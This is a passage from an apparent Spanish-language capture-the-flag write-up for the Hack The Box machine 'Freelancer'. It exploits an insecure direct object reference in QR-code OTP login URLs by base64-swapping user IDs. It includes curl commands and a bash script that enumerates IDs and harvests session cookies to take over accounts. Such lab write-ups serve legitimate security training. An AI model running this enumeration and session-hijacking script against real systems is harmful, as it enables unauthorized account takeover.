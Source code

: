 Esto es critico porque lo que esta haciendo es generar un qr aleatorio y luego encriptando en base64 pone el id. Comprobemos si es verdad.

```bash
curl "http://freelancer.htb/accounts/otp/qrcode/generate/" -b "sessionid=rb9k2wctizogm1e6gw3vk0ky09bkfi53" -o- > qr.img 2>/dev/null && zbarimg qr.img 2>/dev/null | cut -d ':' -f 2-
```
```
http://freelancer.htb/accounts/login/otp/MTAwMTE=/750b34c9c2dc06da241075df48779ca9/
```
Esto nos devulve de nuevo el URl vamos a retocarlo para mandar le el Id de un usuario anterior, a si confirmaremos la deduccion anterior. 

```
echo 10010 | base64
MTAwMTAK
```
Modificamos la URl

```
http://freelancer.htb/accounts/login/otp/MTAwMTAK/750b34c9c2dc06da241075df48779ca9/
```

![atr4x](../../../../../assets/Freelancer/atr4x.png)

Como sospechabamos, tenemso acceso al usuario que creeamos antes al que no pudimos entrar :O, veamos ahora como nos la podemos arreglar para conseguir la url.

### Craft Script  

```bash
#!/bin/bash

for i in $(seq 1 888);do
  http=$(curl "http://freelancer.htb/accounts/otp/qrcode/generate/" -b "sessionid=i1dyi0h2sg2exwmgh6dfjem3lt8etdi1" -o- > qr.img 2>/dev/null && zbarimg qr.img 2>/dev/null | cut -d ':' -f 2-  | sed "s/MTAwMTE=/$(echo $i | base64)/")
  
   
    header=$(curl -s -D - -o /dev/null "$http" | grep -i "Set-Cookie")
    if [ -n  "$header" ]; then
      echo -e "\n-----------INFO------------"
      echo -e "\nURl -> $http\n"
      echo "$header"  
      echo "ID valid user -----> $i"
      echo -e "---------------------------\n"
    
      sleep 7
    fi
done
```